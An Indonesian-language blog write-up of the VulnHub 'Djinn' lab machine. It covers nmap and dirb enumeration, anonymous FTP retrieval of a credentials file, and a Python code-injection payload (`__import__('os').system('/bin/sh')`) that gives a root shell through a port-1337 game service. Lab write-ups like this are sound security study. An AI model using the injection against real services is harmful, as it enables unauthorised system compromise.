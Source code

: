 ```yaml
---
title: '[VulnHub] Djinn WriteUp'
date: 2019-12-21T20:09+07:00
categories: blog
tags:
  - vulnhub
  - writeup
  - code injection
  - python
---
```


## Information Gathering
### nmap

`nmap -sC -sV -p- djinn.vh -v -oN initial.nmap`
```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20 23:54 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21 00:23 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21 00:23 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.192
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '/', 1)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '-', 2)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```
Ada `ftp` di port 21, `ssh` di port 22 tapi filtered, `http` di port `7331`, dan netcat(?) di port `1337`.

### ftp
Login ke `ftp` dan download file `creds.txt`, `game.txt`, `message.txt`.  

*games.txt*
```
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

*creds.txt*
```
nitu:81299
```

*message.txt*
```
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

### dirb
`dirb http://djinn.vh/ /usr/share/wordlists/big.txt`

```
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://djinn.vh:7331/ ----
+ http://djinn.vh:7331/genie (CODE:200|SIZE:1676)                                                                                          
                                                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: EMPTY REPLY FROM SERVER)
                                                                               
-----------------
END_TIME: Sat Dec 21 20:14:37 2019
DOWNLOADED: 16063 - FOUND: 1
```
Berhubung `dirb`nya ternyata error cuma nemu satu dir dan saya terlalu males buat `dirb` atau enum 
ulang. Saya asumsikan attack vectornya bukan dari web.  

*index.html*
![index](/assets/images/Djinn/djinn.png){: img_content }

*/genie*
![genie](/assets/images/Djinn/genie.png){: img_content }


### 1337
`nc djinn.vh 1337`
```
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '-', 2)
>
```
Karena dari point `http-server-header` dari hasil scan `nmap` menggunakan backend python, mungkin flask(?). Saya iseng untuk melakukan code injection `__import__('os').system('/bin/sh')` ke port ini... dan ternyata work dan kita langsung mendapat user `root` :haha:
![root](/assets/images/Djinn/root.png){: img_content }  

Tinggal cari flag rootnya lalu selesai :rofl:
![root](/assets/images/Djinn/rootflag.png){: img_content }

Sebenernya attack vector ini murni hoki karena gak ada indikator bahwa app yang berjalan di port 1337 tadi menggunakan python. Seharusnya code injection dilakukan di web server di `http://djinn.vh/wish` seperti yang dilakukan di [artikel ini](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/). Namun karena pada tahap reconnaisance `dirb` saya error jadi saya tidak menemukan direktori `/wish` tersebut.  

Setelah ditelusuri source code aplikasi di port 1337 tersebut ada di `/opt/1337/app.py`. Code injection tersebut bisa berjalan karena tidak adanya filtering/sanitization input dari user dan penggunaan versi python yang outdated (v2.7.15), dan ditambah app tersebut dijalankan oleh user `root`.

Sekian writeup kali ini, see ya!



